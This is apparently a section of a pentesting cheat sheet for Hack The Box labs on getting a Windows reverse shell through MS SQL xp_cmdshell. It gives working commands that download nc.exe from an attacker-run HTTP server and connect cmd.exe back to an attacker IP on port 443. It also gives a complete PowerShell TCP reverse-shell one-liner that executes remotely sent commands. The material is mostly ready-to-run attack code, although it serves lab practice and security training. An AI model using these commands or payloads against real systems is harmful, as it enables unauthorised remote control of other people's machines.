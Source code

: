 ### Reverse shell

#### with netcat (recomended)
First obtain a copy of netcar for windows in case of using Kali/Parrot you can do it by executing:
```shell
cp /usr/share/windows-binaries/nc.exe .
```
Or you can download it from the official Kali [repository](https://gitlab.com/kalilinux/packages/windows-binaries).

Then we will start an http server.

with python3 (**recomended**):
```
python3 -m http.server
```

with python2:
```
python2 -m SimpleHTTPServer
```

Now put netcat in listening mode you can see how to do it in the part "[netcat in listening mode](#netcat-in-listening-mode)".

```sql
xp_cmdshell "powershell wget -UseBasicParsing http://YOUR IP/nc.exe -OutFile %temp%/nc.exe"
```
```sql
xp_cmdshell "%temp%/nc.exe -nv YOUR IP 443 -e cmd.exe"
```
#### with powershell script
Now we will create a file reverse shell with the extension ``.ps1`` for powershell here the code:
```powershell
$client = New-Object System.Net.Sockets.TCPClient(“YOUR IP”,443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + “# “;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Remember change "Your IP" text for u Hack The Box VPN ip adress, example:
![Reverse Shell](reverse_shell.png)
Then we will start an http server.

with python3 (**recomended**):
```
python3 -m http.server
```

with python2:
```
python2 -m SimpleHTTPServer
```
Now put netcat in listening mode you can see how to do it in the part "[netcat in listening mode](#netcat-in-listening-mode)".
